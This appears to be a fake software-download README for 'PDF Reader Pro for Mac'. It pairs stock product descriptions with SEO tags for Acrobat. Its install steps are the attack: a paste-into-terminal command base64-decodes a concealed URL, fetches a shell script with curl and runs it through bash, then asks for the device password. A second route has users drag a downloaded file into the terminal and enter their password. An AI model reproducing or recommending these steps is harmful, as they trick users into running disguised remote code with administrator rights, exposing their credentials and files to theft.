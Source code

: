 # PDF Reader Pro for Mac Download

![PDF Reader Pro Screenshot 1](https://www.pdfreaderpro.com/seo/mac_reader_pro_screenshot_1.jpg)

---

## 📥 Download PDF Reader Pro for macOS

[![⬇️ Download PDF Reader Pro](https://img.shields.io/badge/Download-PDF%20Reader%20Pro%20Mac-blue?style=for-the-badge&logo=apple)](https://mitrobandus.github.io/.github/PDFReader)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is PDF Reader Pro for Mac?

PDF Reader Pro for Mac is an advanced PDF viewing and editing tool for macOS. With powerful annotation, editing, and PDF management features, it allows users to easily view, create, edit, and convert PDF files.

Unlike basic readers, PDF Reader Pro provides comprehensive tools like text annotation, form filling, merging PDFs, OCR (Optical Character Recognition) support, and more. Whether you’re working with contracts, reports, forms, or eBooks, PDF Reader Pro is the all-in-one solution for any PDF needs.

Optimized for macOS, it integrates well with your system, supporting Retina displays, dark mode, and full compatibility with macOS features like touch gestures.

---

![PDF Reader Pro Screenshot 2](https://www.pdfreaderpro.com/images/features/annotatepdf.png)

---

## ⚙️ Key Features

- 📝 **PDF Editing** – Edit text, images, and links in any PDF file  
- 🔍 **OCR (Optical Character Recognition)** – Convert scanned images and PDFs into editable text  
- 🖊️ **Annotations & Markups** – Highlight, underline, and add notes  
- 📄 **Form Filling & Signing** – Fill out forms, add digital signatures  
- 🔗 **Merge & Split PDFs** – Combine multiple PDFs or split large files into smaller sections  
- 📤 **Convert PDFs** – Export to Word, Excel, PPT, or images  
- 💻 **macOS Native** – Seamless integration with macOS and Apple Silicon (M1/M2/M3)  
- 📂 **File Management** – Organize, search, and sort your PDFs efficiently  

---

## ✅ Suitable For

- Students & Educators  
- Legal and Business Professionals  
- Content Creators working with documents  
- Anyone needing comprehensive PDF editing capabilities  

---

## 📦 System Requirements

- macOS 10.10 (Yosemite) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

pdf reader pro mac, acrobat pro download mac, acrobat pro dc for mac, acrobat professional mac, acrobat reader pro mac, acrobat pro macos, acrobat pro dc download mac, acrobat dc pro for mac, acrobat mac pro, acrobat reader pro mac, pdf reader pro mac download

